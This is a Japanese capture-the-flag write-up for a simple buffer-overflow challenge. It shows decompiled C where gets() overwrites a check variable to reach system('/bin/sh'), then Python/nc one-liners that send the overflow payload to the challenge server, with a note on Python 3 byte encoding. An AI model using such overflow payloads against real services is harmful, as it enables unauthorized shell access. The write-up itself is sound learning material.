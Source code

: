 <br />
### Solution
単なるBOFのチャレンジですが、今回新たに分かったことがあったので記録しておきます。

まずは、Ghidraにかけてコードを確認します。

```C
undefined8 main(void)

{
  char local_28 [24];
  long local_10;
  
  local_10 = 0;
  buffer_init();
  puts(
      "\nI\'m developing this new application in C, I\'ve setup some code for the new features but it\'s not (a)live yet."
      );
  puts("\nWhat features would you like to see in my app?");
  gets(local_28);
  if (local_10 == 0xdeadc0de) {
    puts("\n\nMaybe this code isn\'t so dead...");
    system("/bin/sh");
  }
  return 0;
}
```

<br />

ワンライナーで解こうと思って以下を実行しましたが、成功しませんでした。

<pre>
(python -c 'print("A"*24+"\xde\xc0\xad\xde\x00\x00\x00\x00")' ; cat - ) | nc pwn-2021.duc.tf 31916
</pre>

<br />
実はここのところ、ワンライナーで失敗することが多く、「pwntoolsで解けるからいいや」と思ってスルーしてたんですが、今回ちょっと調べてみました。

hexdumpを使って調べてみると、全く期待していないデータが出ていることが判明。。。ちょっとびっくり。
<pre>
$ (python -c 'print("A"*24+"\xde\xc0\xad\xde\x00\x00\x00\x00")' ; cat - ) | hexdump -C
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  c3 9e c3 80 c2 ad c3 9e  |AAAAAAAA........|
</pre>

<br />
ググって調べたところ、これ Python3 だとこうなっちゃうらしいです。知らなかった... orz

<br />
正解は以下。こっちは改行が自動で入らないので、自分で`b"\n"`を入れてます。

<pre>
$ (python -c 'import sys; sys.stdout.buffer.write(b"A"*24 + b"\xde\xc0\xad\xde\x00\x00\x00\x00"+b"\n")'; cat - ) | nc pwn-2021.duc.tf 31916
